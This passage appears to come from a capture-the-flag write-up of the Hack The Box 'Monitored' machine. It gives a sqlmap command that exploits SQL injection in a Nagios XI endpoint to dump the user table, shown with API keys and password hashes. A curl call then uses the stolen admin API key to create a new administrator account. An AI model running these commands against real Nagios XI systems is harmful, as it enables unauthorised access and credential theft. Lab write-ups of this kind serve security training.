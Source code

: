 ```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=9cknprbi1ggfngnrfgqh5nceg1" --batch -D nagiosxi -T xi_users --dump
```

There is another user `nagiosadmin`

| email               | name                 | username    | api_key                                                          | password                                                     |
| ------------------- | -------------------- | ----------- | ---------------------------------------------------------------- | ------------------------------------------------------------ |
| admin@monitored.htb | Nagios Administrator | nagiosadmin | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C |
| svc@monitored.htb   | svc                  | svc         | QRjkNm4avVpb65bQsZo9PlVqXCvlsFJDKfLmXc5WKIdA6iB6WIiG34HvYl2mTbWn | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK |

I try to crack the passwords for both `nagiosadmin` and `svc` but unsuccessful

## Creating Admin User

I was not able to do much with `svc` account and was unable to crack the password for the `nagiosadmin` user. After some quick Googling, I came to [this page](https://support.nagios.com/forum/viewtopic.php?f=6&t=40502) Nagios support forum

![img](/assets/img/Monitored/img9.webp)

Based on the info from this post; seems like the admin user can be created by passing those parameters `username`, `password`, `name`, `email`, and `auth_level` via the API. I use the following command to create an admin user

```bash
$ curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=z3r0da&password=z3r0da&name=ctf&email=z3r0da@monitored.htb&auth_level=admin" -k -s
{"success":"User account z3r0da was added successfully!","user_id":7}
```

User account `z3r0da` was added successfully! and I am able login to `https://nagios.monitored.htb/nagiosxi/` with `z3r0da`
